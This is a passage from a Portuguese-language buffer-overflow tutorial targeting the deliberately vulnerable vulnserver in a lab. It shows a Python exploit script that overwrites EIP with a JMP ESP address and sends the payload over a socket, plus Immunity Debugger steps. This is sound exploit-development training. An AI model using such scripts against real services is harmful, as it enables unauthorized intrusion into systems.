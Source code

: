 ![Immunity.](/img/std/winbof/winbof-13.png)

Encontramos 9 bons endereços para incluir em nosso payload.

## INSERINDO O ENDEREÇO DE RETORNO NO PAYLOAD

Em posse do endereço de retorno, vamos adicionar um deles no lugar de nossos B,
eu vou utilizar o 62501203 , porém a notação para envio tem que ser em little indian, portanto os bytes tem ordem inversa, ficando: \x03\x12\x50\x62.
Vamos atualizar o exploit.

xpltrun.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# tamanho do offset encontrado no fuzzing
offset = 5061

# payload a ser enviado
payload = b"TRUN /../" # funcao inicial
payload += b"A"*2003 # preenchimento do buffer
payload += b"\x03\x12\x50\x62" # sobrescreve EIP com JMP ESP
payload += b"C" * (5062 - 2003 - 4) # sobrescreve ESP

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # cria o socket
s.connect((ip,porta)) # conecta no alvo

s.send(payload + b"\r\n") # envia o payload

s.close() # fecha conexao
```
Com o nosso script atualizado, vamos inserir um breakpoint no Immunity, exatamente em nosso endereço de retorno, para isso podemos pesquisar o endereço através do botão “Go to address Disassembler” e em seguida pressionar “F2”. Com o breakpoint configurado, vamos reiniciar o vulnserver no Immunity e rodar nosso script.
